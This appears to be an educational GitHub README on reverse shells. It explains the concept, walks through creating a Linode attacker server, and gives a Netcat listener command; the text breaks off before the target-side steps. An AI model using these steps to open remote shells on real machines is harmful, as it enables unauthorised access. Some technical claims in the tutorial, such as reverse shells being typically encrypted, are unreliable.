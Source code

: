 <h2><p align="center">Reverse Shells</h2>

<h3><p align="center">*ONLY FOR EDUCATIONAL PURPOSES ONLY*</h3>

<h4><p align="center">Welcome! This repository is your gateway to understanding reverse shells. If you're new to cybersecurity or curious about remote access methods, you're in the right place. We'll explain reverse shells in simple terms, empowering you to navigate this crucial aspect of digital security with confidence. For this lesson, I will be referring to NetworkChuck's video on how setup a Cloud enviroment for the attacking machine and our target machine. After this lesson, you will understand the importance and reason behind reverse shells. </h4>

[Video](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=267s)
***


<h3>What are Reverse Shells?</h3>

Reverse shells are a type of shell session where a target machine connects back to an attacker's machine, rather than the other way around. This is typically used in scenario's where the target machine is behind a firewall or NAT and cannot accept incoming connections.

Here is a Step-by-Step on how it works
1. The **attacker** compromises the **target** machine and injects code that establishes a connection to a remote system controlled by the **attacker**.
2. Once that connection has established, the **attacker** can now gain access thru the shell on the **target** machine. This allows them to execute commands and interact with the system as if it had physical access to it.
3. This connection is typically encrypted to prevent detection and interception by security measures.

In this lab, we'll also explore the use of Netcat for creating reverse shells. Netcat, a versatile networking tool, acts like a direct line between computers. Think of it as setting up a secret phone call where the target computer calls back to the attacker's system. This enables hackers to gain remote access and control over the target, just like having a direct line to the computer's command center.

***

<h4><p align="center"><u>Tools you'll need</u></h4>

1. A computer for **target** machine
2. Cloud enviroment for **attacking** machine (*I will be using Linode, if you create an account right now and verify, you will get $100 credit to use*)
3. [Virtual Box](https://www.virtualbox.org/wiki/Downloads) (*I will be using KaliLinux*) 
4. Eagerness to learn!

***

<h4><u>Starting with Linode</u></h4>

<i><p align="center">Once you've created your Linode account and received the free $100 credit post-verification, this is how you will set it up.</i>

You will navigate to the top left of the page and look for "Create". Click on the drop down arrow next to it and select "Linode" -> For the distribution, click on "Ubuntu 18.04 LTS" -> Click on the nearest region next to you after that -> click on "Shared CPU" which is under the Linode plan section -> Click on the "Nanode 1GB" option (*Should read with a $5 Monthly charge*) -> After selection, name your Linode and set Root Password -> Then click "Create". 

Once you've setup your Linode, look at the top right underneath the name of the Linode and wait for it to say "Running" with a green circle next to it. This will confirm that your cloud enviroment is now stable and active to run.

<u><h4>Time to Login</h4></u>

*<i><p align="center">Now that we have our Linode setup, its time to login into the enviroment.</i>*

!. Look for your SSH Access and copy it. *(Look at the right side of the top portion of the Linode page and look for Access -> SSH Access)*
2. Open Command Prompt and type in this following command.
```bash
# Command to copy
ssh root@"fill in with your SSH Access"
```
3. Once you've entered the command line and press enter, it will prompt with "Are you sure you want to continue connecting?". Type "yes", then type your Root password. Then VIOLA! you're connected.

*<i><p align="center">Now lets understand NetCat</i>*

1. To go ahead and first check if NetCat is installed, type in the command line "nc"
 ```bash
# Command to copy
nc
```
2. Now going forward, since we are using NetCat to reverse shell, we have to make sure both clients both have NetCat installed. In this matter, since both are Linux machines, they both already come with NetCat installed.
3. Now we are going to use this command to see if it is listening.When picking the port, use a port # that is below 1000. L = Listen, N = IP Address Only, V = Verbose, P = Port
 ```bash
# Command to copy
nc -lvnp "port #" -s "Ip address from Linode"
```
Example: nc -lnvp 87 -s 192.168.1.1

4. Now once you've completed that part, it should prompt with a command line that is listening on that IP.

*<i><p align="center">Now let's set up the **target** machine in KaliLinux</i>*

1. 

